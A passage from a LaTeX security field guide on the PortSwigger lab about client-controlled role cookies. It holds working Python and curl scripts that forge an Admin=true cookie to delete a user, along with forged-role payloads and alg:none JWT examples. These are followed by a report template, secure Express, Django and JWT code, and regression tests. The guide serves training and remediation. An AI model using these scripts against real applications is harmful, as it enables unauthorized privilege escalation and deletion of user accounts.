    print("[*] Getting CSRF token...")
    login_url = f"{base_url}/login"
    r = session.get(login_url, proxies=PROXIES, timeout=15)
    
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf_input = soup.find('input', {'name': 'csrf'})
    if not csrf_input:
        print("[-] CSRF token not found")
        return False
    csrf_token = csrf_input['value']
    print(f"[+] CSRF token: {csrf_token[:20]}...")
    
    # Step 2: Login as wiener
    print("[*] Logging in as wiener...")
    login_data = {
        'csrf': csrf_token,
        'username': 'wiener',
        'password': 'peter'
    }
    r = session.post(login_url, data=login_data, proxies=PROXIES, 
                     timeout=15, allow_redirects=True)
    
    if 'Log out' not in r.text:
        print("[-] Login failed")
        return False
    print("[+] Successfully logged in")
    
    # Step 3: Get session cookie and forge Admin cookie
    session_cookie = session.cookies.get('session')
    print(f"[*] Session cookie: {session_cookie[:20]}...")
    
    # Step 4: Forge Admin=true and delete carlos
    print("[*] Forging Admin cookie and deleting carlos...")
    cookies = {'session': session_cookie, 'Admin': 'true'}
    delete_url = f"{base_url}/admin/delete?username=carlos"
    
    r = requests.get(delete_url, cookies=cookies, verify=False,
                     proxies=PROXIES, timeout=15, allow_redirects=True)
    
    if r.status_code == 200 and 'carlos' not in r.text.lower():
        print("[+] Carlos deleted successfully!")
        return True
    
    print(f"[-] Deletion may have failed: {r.status_code}")
    return False


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <URL>")
        print(f"Example: {sys.argv[0]} https://0aXXXX.web-security-academy.net")
        sys.exit(2)
    
    url = sys.argv[1].rstrip('/')
    success = delete_carlos(url)
    sys.exit(0 if success else 1)
\end{lstlisting}

\subsection{Bash/Curl Exploitation}

\begin{lstlisting}[language=bash,caption={Command-line exploitation with curl}]
#!/bin/bash
# Role Cookie Exploitation Script
# Usage: ./exploit.sh https://target.example.com

BASE_URL="$1"

if [ -z "$BASE_URL" ]; then
    echo "Usage: $0 <BASE_URL>"
    exit 1
fi

echo "[*] Target: $BASE_URL"

# Step 1: Get CSRF token from login page
echo "[*] Fetching CSRF token..."
CSRF_RESPONSE=$(curl -s -c cookies.txt "$BASE_URL/login")
CSRF_TOKEN=$(echo "$CSRF_RESPONSE" | grep -oP 'name="csrf"\s+value="\K[^"]+')

if [ -z "$CSRF_TOKEN" ]; then
    echo "[-] Failed to get CSRF token"
    exit 1
fi
echo "[+] CSRF token: ${CSRF_TOKEN:0:20}..."

# Step 2: Login
echo "[*] Logging in as wiener..."
curl -s -b cookies.txt -c cookies.txt \
    -d "csrf=$CSRF_TOKEN&username=wiener&password=peter" \
    "$BASE_URL/login" > /dev/null

# Step 3: Extract session cookie
SESSION=$(grep -oP 'session\s+\K[^\s]+' cookies.txt | tail -1)
echo "[+] Session: ${SESSION:0:20}..."

# Step 4: Access admin panel with forged cookie
echo "[*] Accessing admin panel with Admin=true..."
ADMIN_RESPONSE=$(curl -s -b "session=$SESSION; Admin=true" "$BASE_URL/admin")

if echo "$ADMIN_RESPONSE" | grep -qi "admin panel"; then
    echo "[+] Admin panel accessed!"
else
    echo "[-] Failed to access admin panel"
    exit 1
fi

# Step 5: Delete carlos
echo "[*] Deleting carlos..."
DELETE_RESPONSE=$(curl -s -b "session=$SESSION; Admin=true" \
    "$BASE_URL/admin/delete?username=carlos")

if echo "$DELETE_RESPONSE" | grep -qvi "carlos"; then
    echo "[+] Carlos deleted successfully!"
else
    echo "[-] Deletion may have failed"
fi

# Cleanup
rm -f cookies.txt
\end{lstlisting}

% ============================================================
\section{Vulnerability Variations}
% ============================================================

\subsection{Variation 1: Query Parameter Role}

\begin{lstlisting}[language=http,caption={Role in query parameter}]
-- Normal request --
GET /dashboard?role=user HTTP/1.1
Cookie: session=xyz789

-- Exploited request --
GET /dashboard?role=admin HTTP/1.1
Cookie: session=xyz789

-- Or accessing admin directly --
GET /admin?admin=true HTTP/1.1
Cookie: session=xyz789
\end{lstlisting}

\subsection{Variation 2: JSON Body Role}

\begin{lstlisting}[language=http,caption={Role in JSON request body}]
POST /api/user/profile HTTP/1.1
Content-Type: application/json
Cookie: session=xyz789

{
    "action": "update",
    "name": "John Doe",
    "isAdmin": true,
    "role": "administrator"
}
\end{lstlisting}

\subsection{Variation 3: Hidden Form Field}

\begin{lstlisting}[language=http,caption={Role in hidden form field}]
-- Original form --
<form action="/update" method="POST">
    <input type="hidden" name="role" value="user">
    <input type="text" name="email">
    <button>Update</button>
</form>

-- Exploited submission --
POST /update HTTP/1.1
Content-Type: application/x-www-form-urlencoded

role=admin&email=attacker@evil.com
\end{lstlisting}

\subsection{Variation 4: Custom HTTP Header}

\begin{lstlisting}[language=http,caption={Role in custom header}]
GET /admin HTTP/1.1
Host: target.example.com
Cookie: session=xyz789
X-User-Role: admin
X-Admin: true
X-Forwarded-User-Role: administrator
\end{lstlisting}

\subsection{Variation 5: Base64-Encoded Cookie}

\begin{lstlisting}[language=bash,caption={Decoding and modifying Base64 cookie}]
# Original cookie value
COOKIE="eyJyb2xlIjoidXNlciIsInVpZCI6MTIzfQ=="

# Decode
echo "$COOKIE" | base64 -d
# Output: {"role":"user","uid":123}

# Modify and re-encode
echo -n '{"role":"admin","uid":123}' | base64
# Output: eyJyb2xlIjoiYWRtaW4iLCJ1aWQiOjEyM30=

# Use modified cookie
curl -b "userInfo=eyJyb2xlIjoiYWRtaW4iLCJ1aWQiOjEyM30=" \
    https://target.example.com/admin
\end{lstlisting}

\subsection{Variation 6: Unsigned/Weak JWT}

\begin{lstlisting}[language=bash,caption={Exploiting unsigned JWT}]
# Original JWT (alg: none vulnerability)
# Header: {"alg":"none","typ":"JWT"}
# Payload: {"sub":"user123","role":"user"}

# Decode header
echo "eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0" | base64 -d
# {"alg":"none","typ":"JWT"}

# Create new payload with admin role
echo -n '{"sub":"user123","role":"admin"}' | base64 | tr -d '='
# eyJzdWIiOiJ1c2VyMTIzIiwicm9sZSI6ImFkbWluIn0

# New JWT (no signature needed with alg:none)
# eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiJ1c2VyMTIzIiwicm9sZSI6ImFkbWluIn0.
\end{lstlisting}

% ============================================================
\section{Evidence Collection and Reporting}
% ============================================================

\subsection{Minimum Evidence Requirements}

\begin{enumerate}
  \item \textbf{Cookie/Parameter Discovery}
  \begin{itemize}
    \item Screenshot showing Set-Cookie header with role parameter
    \item Evidence that the parameter is client-controllable
  \end{itemize}
  
  \item \textbf{Before/After Comparison}
  \begin{itemize}
    \item Request/response with original role value (e.g., Admin=false)
    \item Request/response with modified role value (e.g., Admin=true)
    \item Clear difference in access/functionality
  \end{itemize}
  
  \item \textbf{Privileged Action Execution}
  \begin{itemize}
    \item Request/response showing admin action with forged role
    \item Proof of impact (e.g., user deleted, data accessed)
  \end{itemize}
\end{enumerate}

\subsection{Report Template}

\begin{lstlisting}[caption={Vulnerability report template}]
# Vulnerability Report: User Role Controlled by Request Parameter

## Executive Summary
The application determines administrative privileges based on a 
client-controlled cookie value (Admin=true/false). An authenticated
attacker can modify this cookie to escalate privileges and access
administrative functionality.

## Severity Assessment
- CVSS v3.1 Base Score: 8.8 (High)
- Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
- Primary CWE: CWE-639 (Authorization Bypass Through User-Controlled Key)

## Technical Details

### Forgeable Parameter
- Type: Cookie
- Name: Admin
- Original Value: false
- Forged Value: true

### Proof of Concept

#### Step 1: Login as Regular User
POST /login
Response: Set-Cookie: Admin=false; session=xyz789

#### Step 2: Access Admin Panel with Forged Cookie
GET /admin
Cookie: Admin=true; session=xyz789
Response: 200 OK (Admin panel content)

#### Step 3: Execute Privileged Action
GET /admin/delete?username=carlos
Cookie: Admin=true; session=xyz789
Response: User deleted

## Root Cause
The server trusts the client-supplied Admin cookie value to determine
authorization without any server-side validation or cryptographic 
integrity protection.

## Impact Analysis
An attacker with any valid user account can:
- Access the admin panel
- View all users
- Delete any user
- Modify system settings
- Export sensitive data

## Remediation Recommendations
1. Store role/privilege information server-side only
2. Use opaque session tokens that map to server-stored roles
3. If tokens must contain claims, use cryptographic signing (JWT with RS256)
4. Implement server-side authorization checks on every request
5. Add security regression tests for role manipulation

## References
- CWE-639: Authorization Bypass Through User-Controlled Key
- OWASP: Broken Access Control
\end{lstlisting}

% ============================================================
\section{Remediation Patterns}
% ============================================================

\subsection{Core Remediation Principles}

\begin{enumerate}
  \item \textbf{Server-side role storage}: Never store roles in client-controlled values
  \item \textbf{Cryptographic integrity}: If roles must be in tokens, sign them cryptographically
  \item \textbf{Per-request validation}: Check authorization on every request, not just at login
  \item \textbf{Defense in depth}: Multiple layers of authorization checks
\end{enumerate}

\subsection{Anti-Pattern vs. Secure Pattern}

\begin{table}[h]
\centering
\begin{tabularx}{\textwidth}{@{}XX@{}}
\toprule
\textbf{Anti-Pattern (Vulnerable)} & \textbf{Secure Pattern} \\
\midrule
\code{Set-Cookie: Admin=true} & Store role in server-side session \\
\code{?role=admin} query parameter & Lookup role from database by session ID \\
\code{{"isAdmin":true}} in request body & Ignore client role claims entirely \\
Unsigned JWT with role claim & Signed JWT with role verified on server \\
Trust \code{X-User-Role} header & Derive role from authenticated identity \\
\bottomrule
\end{tabularx}
\caption{Anti-patterns vs. secure patterns}
\end{table}

\subsection{Implementation Examples}

\subsubsection{Express.js (Node.js) - Secure Session-Based Roles}

\begin{lstlisting}[language=javascript,caption={Express.js: Secure server-side role management}]
const express = require('express');
const session = require('express-session');
const app = express();

// Session configuration with server-side storage
app.use(session({
    secret: process.env.SESSION_SECRET,
    resave: false,
    saveUninitialized: false,
    cookie: {
        secure: true,
        httpOnly: true,
        sameSite: 'strict'
    }
}));

// Login handler - store role SERVER-SIDE only
app.post('/login', async (req, res) => {
    const { username, password } = req.body;
    
    const user = await authenticateUser(username, password);
    if (!user) {
        return res.status(401).send('Invalid credentials');
    }
    
    // Store role in SESSION (server-side), NOT in cookie
    req.session.userId = user.id;
    req.session.username = user.username;
    req.session.isAdmin = user.role === 'admin';  // Server-side only!
    
    res.redirect('/dashboard');
});

// Admin middleware - checks SERVER-SIDE session
function requireAdmin(req, res, next) {
    // NEVER trust req.cookies.Admin or similar
    // ONLY trust server-side session data
    
    if (!req.session || !req.session.userId) {
        return res.status(401).send('Not authenticated');
    }
    
    if (!req.session.isAdmin) {
        console.warn(`Unauthorized admin access by user ${req.session.userId}`);
        return res.status(403).send('Forbidden');
    }
    
    next();
}

// Protected admin routes
app.use('/admin', requireAdmin);

app.get('/admin', (req, res) => {
    res.render('admin-panel');
});

app.get('/admin/delete', requireAdmin, async (req, res) => {
    const { username } = req.query;
    await deleteUser(username);
    res.redirect('/admin');
});
\end{lstlisting}

\subsubsection{Django (Python) - Built-in Auth System}

\begin{lstlisting}[language=python,caption={Django: Using built-in authentication and authorization}]
from django.contrib.auth.decorators import login_required, user_passes_test
from django.contrib.auth import authenticate, login
from django.http import HttpResponseForbidden
import logging

logger = logging.getLogger(__name__)

def is_admin(user):
    """Check admin status from DATABASE, not from request."""
    return user.is_authenticated and user.is_staff

def login_view(request):
    """Login handler - role comes from database, not client."""
    if request.method == 'POST':
        username = request.POST.get('username')
        password = request.POST.get('password')
        
        user = authenticate(request, username=username, password=password)
        if user is not None:
            login(request, user)  # Creates server-side session
            # Role (is_staff) is stored in DATABASE
            # Session only contains user ID reference
            return redirect('dashboard')
    
    return render(request, 'login.html')

@login_required
@user_passes_test(is_admin)  # Checks user.is_staff from DATABASE
def admin_panel(request):
    """Admin panel - authorization checked via database."""
    users = User.objects.all()
    return render(request, 'admin/panel.html', {'users': users})

@login_required
@user_passes_test(is_admin)
def delete_user(request):
    """Delete user - requires admin from DATABASE."""
    if request.method != 'POST':
        return HttpResponseForbidden()
    
    username = request.POST.get('username')
    
    # Log admin action
    logger.info(f"Admin {request.user.username} deleting user {username}")
    
    User.objects.filter(username=username).delete()
    return redirect('admin_panel')
\end{lstlisting}

\subsubsection{Signed JWT Implementation}

\begin{lstlisting}[language=javascript,caption={Proper JWT implementation with signature verification}]
const jwt = require('jsonwebtoken');
const crypto = require('crypto');

// Use strong asymmetric keys, NOT HS256 with weak secrets
const PRIVATE_KEY = process.env.JWT_PRIVATE_KEY;
const PUBLIC_KEY = process.env.JWT_PUBLIC_KEY;

// Generate JWT at login
function generateToken(user) {
    const payload = {
        sub: user.id,
        username: user.username,
        role: user.role,  // Role from DATABASE
        iat: Math.floor(Date.now() / 1000),
        exp: Math.floor(Date.now() / 1000) + (60 * 60)  // 1 hour
    };
    
    return jwt.sign(payload, PRIVATE_KEY, { algorithm: 'RS256' });
}

// Verify JWT on every request
function verifyToken(token) {
    try {
        // CRITICAL: Specify allowed algorithms to prevent alg:none attacks
        const decoded = jwt.verify(token, PUBLIC_KEY, { 
            algorithms: ['RS256']  // Only allow RS256
        });
        return decoded;
    } catch (err) {
        return null;
    }
}

// Middleware
function requireAdmin(req, res, next) {
    const token = req.headers.authorization?.replace('Bearer ', '');
    
    if (!token) {
        return res.status(401).send('No token provided');
    }
    
    const decoded = verifyToken(token);
    
    if (!decoded) {
        return res.status(401).send('Invalid token');
    }
    
    // Role is verified from SIGNED token, not client input
    if (decoded.role !== 'admin') {
        return res.status(403).send('Admin required');
    }
    
    req.user = decoded;
    next();
}
\end{lstlisting}

\subsection{Regression Testing}

\begin{lstlisting}[language=python,caption={pytest: Access control regression tests}]
import pytest
from app import create_app
from app.models import User

class TestRoleBasedAccessControl:
    """Regression tests to prevent role cookie vulnerabilities."""
    
    @pytest.fixture
    def client(self, app):
        return app.test_client()
    
    def test_admin_cookie_does_not_grant_access(self, client):
        """Forging Admin cookie should NOT grant admin access."""
        # Login as regular user
        client.post('/login', data={
            'username': 'wiener',
            'password': 'peter'
        })
        
        # Try to access admin with forged cookie
        response = client.get('/admin', headers={
            'Cookie': 'Admin=true'
        })
        
        # Should be forbidden regardless of Admin cookie
        assert response.status_code == 403
    
    def test_role_query_param_ignored(self, client):
        """Role in query parameter should be ignored."""
        client.post('/login', data={
            'username': 'wiener',
            'password': 'peter'
        })
        
        response = client.get('/admin?role=admin&isAdmin=true')
        assert response.status_code == 403
    
    def test_role_in_json_body_ignored(self, client):
        """Role in JSON body should be ignored."""
        client.post('/login', data={
            'username': 'wiener',
            'password': 'peter'
        })
        
        response = client.post('/api/admin/action', json={
            'action': 'delete_user',
            'isAdmin': True,
            'role': 'admin'
        })
        assert response.status_code == 403
    
    def test_actual_admin_can_access(self, client, admin_user):
        """Real admin (from database) should have access."""
        client.post('/login', data={
            'username': 'admin',
            'password': 'admin_password'
        })
        
        response = client.get('/admin')
        assert response.status_code == 200
\end{lstlisting}

% ============================================================
\section{Testing Checklist}
% ============================================================

\subsection{Discovery Checklist}

\begin{itemize}[label=$\square$]
  \item Login with test account and capture all Set-Cookie headers
  \item Examine cookies for role-related names (admin, isAdmin, role, user, etc.)
  \item Check for boolean-looking values (true/false, 0/1, yes/no)
  \item Inspect query parameters for role indicators
  \item Analyze request bodies (form and JSON) for role fields
  \item Check custom headers (X-User-Role, X-Admin, etc.)
  \item Decode any Base64 cookies for embedded role data
  \item Inspect JWTs for role claims
\end{itemize}

\subsection{Exploitation Checklist}

\begin{itemize}[label=$\square$]
  \item Authenticate with standard user credentials
  \item Document original role parameter value
  \item Modify role parameter to elevated value
  \item Compare responses (content, length, elements)
  \item Verify new functionality appears (admin links, etc.)
  \item Access admin endpoints with forged role
  \item Execute admin action (non-destructive first if possible)
  \item Document successful privilege escalation
\end{itemize}

\subsection{Evidence Collection Checklist}

\begin{itemize}[label=$\square$]
  \item Screenshot of Set-Cookie with role parameter
  \item Before/after response comparison
  \item Full HTTP request with forged parameter
  \item Full HTTP response showing elevated access
  \item Admin action request and response
  \item Proof of impact (user list, deleted user, etc.)
  \item Burp project file saved
\end{itemize}

% ============================================================
\section{Quick Reference}
% ============================================================

\subsection{Common Role Cookie Names}

\begin{longtable}{@{}ll@{}}
\toprule
\textbf{Cookie Name} & \textbf{Typical Values} \\
\midrule
\code{Admin} & true/false \\
\code{isAdmin} & 0/1, true/false \\
\code{role} & user/admin/moderator \\
\code{userRole} & standard/premium/admin \\
\code{accessLevel} & 1/2/3, basic/full \\
\code{privilege} & normal/elevated \\
\code{userType} & customer/staff/admin \\
\code{isStaff} & true/false \\
\bottomrule
\caption{Common role cookie names and values}
\end{longtable}

\subsection{Exploitation Quick Reference}

\begin{longtable}{@{}lp{10cm}@{}}
\toprule
\textbf{Method} & \textbf{Command/Technique} \\
\midrule
Curl with cookie & \code{curl -b "Admin=true; session=xyz" https://target/admin} \\
Browser DevTools & Application $\rightarrow$ Cookies $\rightarrow$ Edit value \\
Burp Intercept & Modify Cookie header before forwarding \\
Burp Match/Replace & Auto-replace \code{Admin=false} with \code{Admin=true} \\
Python requests & \code{session.cookies.set('Admin', 'true')} \\
\bottomrule
\caption{Quick exploitation methods}
\end{longtable}

% ============================================================
\section{Additional Resources}
% ============================================================

\subsection{Training Labs}

\begin{itemize}
  \item \textbf{PortSwigger Web Security Academy}: Lab ``User role controlled by request parameter''
  \item \textbf{OWASP WebGoat}: Access Control Flaws module
  \item \textbf{HackTheBox}: Various web challenges with authorization flaws
\end{itemize}

\subsection{References}

\begin{itemize}
  \item OWASP Testing Guide: Testing for Bypassing Authorization Schema
  \item CWE-639: Authorization Bypass Through User-Controlled Key
  \item CWE-284: Improper Access Control
  \item OWASP ASVS v4.0: V4 Access Control Requirements
\end{itemize}

% ============================================================
\section{Document History}
% ============================================================

\begin{table}[h]
\centering
\begin{tabular}{@{}llp{8cm}@{}}
\toprule
\textbf{Version} & \textbf{Date} & \textbf{Changes} \\
\midrule
1.0 & 2025-01-01 & Initial field guide \\
2.0 & 2026-01-21 & Comprehensive expansion: added CSRF handling, multiple parameter types, complete automation scripts, vulnerability variations, secure implementation patterns, testing checklists \\
\bottomrule
\end{tabular}
\caption{Document revision history}
\end{table}

\end{document}
